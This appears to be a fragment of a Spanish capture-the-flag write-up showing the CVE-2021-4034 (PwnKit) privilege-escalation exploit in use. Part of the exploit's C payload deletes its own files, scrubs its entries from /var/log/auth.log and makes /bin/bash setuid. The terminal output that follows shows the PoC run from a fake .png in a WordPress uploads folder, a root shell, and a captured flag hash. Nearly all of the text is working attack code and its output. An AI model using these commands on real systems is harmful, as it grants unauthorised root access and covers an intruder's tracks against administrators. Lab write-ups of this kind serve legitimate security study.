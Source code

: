 ```null
system("PATH=/bin:/usr/bin:/usr/sbin:/usr/local/bin/:/usr/local/sbin;"
       "rm -rf 'GCONV_PATH=.' 'pkwner';"
       "cat /var/log/auth.log|grep -v pkwner >/tmp/al;cat /tmp/al >/var/log/auth.log;"
       "chmod u+s /bin/bash");
  exit(0);
```

```null
$~ bash /var/www/html/wp-content/uploads/2023/02/pkwner-1.png
██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
CVE-2021-4034 PoC by Kim Schulz
[+] Setting up environment...
[+] Build offensive gconv shared module...
[+] Build mini executor...
hello[+] Nice Job

$~ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash

$~ bash -p -c 'whoami'
root
```

Puedo ver la segunda flag

```null
$~ bash /var/www/html/wp-content/uploads/2023/02/pkwner-7.png
██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
CVE-2021-4034 PoC by Kim Schulz
[+] Setting up environment...
[+] Build offensive gconv shared module...
[+] Build mini executor...
d69d71121dbfab36e96f98b4d947448d
hello[+] Nice Job
```

